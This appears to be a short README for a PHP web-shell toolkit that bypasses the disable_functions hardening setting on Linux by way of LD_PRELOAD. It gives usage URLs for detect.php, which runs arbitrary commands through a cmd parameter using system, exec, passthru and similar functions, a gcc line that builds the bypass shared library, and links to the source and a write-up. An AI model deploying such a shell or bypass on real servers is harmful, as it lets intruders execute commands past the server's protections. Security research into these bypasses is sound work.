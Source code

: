 # LD_PRELOAD.php

One PHP file bypass disable_functions with LD_PRELOAD.  
Only support Linux.

CODE: [https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)  
Paper: [https://www.freebuf.com/web/192052.html](https://www.freebuf.com/web/192052.html)


# detect.php

Try to bypass disable_functions.

Detect disable_functions:
```
http://url/detect.php?action=test
```

Run COMMAND with specified function:
```
http://url/detect.php?action=[system|exec|passthru|shell_exec|popen|proc_open|ws|sa]&cmd=COMMAND
```


# Bypass disable_functions

```
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so
```

